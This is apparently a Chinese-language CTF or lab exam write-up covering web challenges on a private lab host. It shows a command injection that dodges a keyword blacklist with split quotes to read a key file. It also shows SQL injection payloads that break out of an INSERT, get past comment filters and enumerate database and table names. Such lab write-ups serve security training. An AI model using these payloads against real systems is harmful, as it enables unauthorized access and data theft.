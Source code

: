 ![image-20221224113210282](F:/Typora_pic/pte/image-20221224113210282.png)

127.0.0.1 -c 1 & c''at ../key.p''hp

![image-20221224113235848](F:/Typora_pic/pte/image-20221224113235848.png)

把文件找到，然后cat和php都是黑名单，用两个单引号过滤，或者用单引号分隔过滤

右键查看源代码

**key5:acsq3fd5**

# http://10.11.0.168:81~85/

## 1、http://10.11.0.168:81

继续是注入

![image-20221226165124857](F:/Typora_pic/pte/image-20221226165124857.png)

和前面那题大相径庭，注册个用户写文章，主义提示我们过滤了双横杠注释和井号注释

![image-20221226165215132](F:/Typora_pic/pte/image-20221226165215132.png)

照例先随便输入点东西看看，注释的话因为同时过滤了减号和井号，那我们吧这两个结合起来

会把插入的语句展示给我们看

![image-20221226165453881](F:/Typora_pic/pte/image-20221226165453881.png)

那我们尝试一下截断写入

注释的话因为同时过滤了减号和井号，那我们吧这两个结合起来

```
s','22','login'); -#- -
```

![image-20221226165432981](F:/Typora_pic/pte/image-20221226165432981.png)

![image-20221226165542702](F:/Typora_pic/pte/image-20221226165542702.png)

两个都写进去了，那就先看下数据库

```
s',database(),'login'); -#- -
```

![image-20221226165623240](F:/Typora_pic/pte/image-20221226165623240.png)

2web

数据库出来了我们直接猜注表名

```
s',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'login'); -#- -
```
